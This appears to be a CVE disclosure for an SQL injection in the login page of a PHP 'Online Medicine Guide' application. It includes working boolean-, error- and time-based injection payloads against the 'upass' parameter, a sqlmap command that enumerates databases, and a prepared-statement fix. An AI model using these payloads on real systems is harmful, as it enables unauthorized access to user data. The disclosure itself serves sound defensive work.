

# CVE-2025-60736: SQL Injection Vulnerability in Online Medicine Guide

## Executive Summary

This document outlines a critical SQL injection vulnerability discovered in the Online Medicine Guide web application. The vulnerability allows unauthorized database access and poses significant security risks to the application and its users.

## Submitter
- **Noah "nxvh" Heraud**

## 1. Product Information

### Affected Product
- **Product Name**: Online Medicine Guide
- **Vendor**: Code Projects
- **Vendor Homepage**: https://code-projects.org/online-medicine-guide-in-php-css-javascript-and-mysql-free-download/
- **Affected Version**: v1.0
- **Vulnerable File**: `/login.php`
- **Software Type**: Web Application (PHP/MySQL)

### Technical Details
- **Programming Language**: PHP
- **Database**: MySQL
- **Frontend**: CSS, JavaScript
- **Architecture**: LAMP/WAMP Stack

## 2. Vulnerability Details

### Vulnerability Classification
- **CVE ID**: CVE-2025-60736
- **Vulnerability Type**: SQL Injection
- **Severity**: Critical
- **CVSS Score**: 9.8 (Critical)
- **Attack Vector**: Network
- **Attack Complexity**: Low
- **Privileges Required**: None
- **User Interaction**: None
- **Scope**: Changed

### Root Cause Analysis
The vulnerability stems from insufficient input validation and sanitization in the `/login.php` file. The application directly concatenates user input from the `upass` parameter into SQL queries without proper sanitization or prepared statements.

**Technical Root Cause**:
- Direct string concatenation in SQL queries
- Lack of input validation and sanitization
- Missing prepared statements implementation
- Insufficient parameter binding

## 3. Proof of Concept

### Vulnerability Location
- **File**: `/login.php`
- **Parameter**: `upass` (POST)
- **Attack Vector**: HTTP POST request manipulation

### Exploitation Methods

#### Method 1: Boolean-Based SQL Injection
```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

uname=uLnf&upass=rZgo' OR NOT 1852=1852-- iPRx
````

#### Method 1: Error-Based SQL Injection
```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

uname=uLnf&upass=rZgo' AND EXTRACTVALUE(4672,CONCAT(0x5c,0x7176707071,(SELECT (ELT(4672=4672,1))),0x71717a7071))-- knKp
```

#### Method 2: Time-Based Blind SQL Injection
```
POST /login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

uname=uLnf&upass=rZgo' AND (SELECT 2089 FROM (SELECT(SLEEP(5)))zUlY)-- mWfa
```

### Automated Testing
The vulnerability was confirmed using sqlmap:
```bash
sqlmap -u "http://localhost:8000/login.php" --data="uname=admin&upass=test" -p upass --batch --dbs
```



## 4. Remediation Plan

### Immediate Actions
1. **Emergency Patch**: Implement input validation for `upass` parameter
2. **Database Monitoring**: Enable comprehensive logging for suspicious activities
3. **Access Restriction**: Implement rate limiting and IP-based restrictions
4. **Security Audit**: Conduct immediate security assessment


## 5. Technical Remediation

### Code Fix Example
**Before (Vulnerable)**:
```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['uname'] . "'";
```

**After (Secure)**:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$_POST['uname']]);
```

### Security Best Practices Implementation
1. **Prepared Statements**: Use parameterized queries exclusively
2. **Input Validation**: Implement whitelist-based validation
3. **Output Encoding**: Properly encode all output data
4. **Error Handling**: Implement secure error handling without information disclosure
5. **Access Controls**: Implement proper authentication and authorization

---

**Document Version**: 1.0  
**Last Updated**: 03/10/2025 (dd/mm/yyyy)
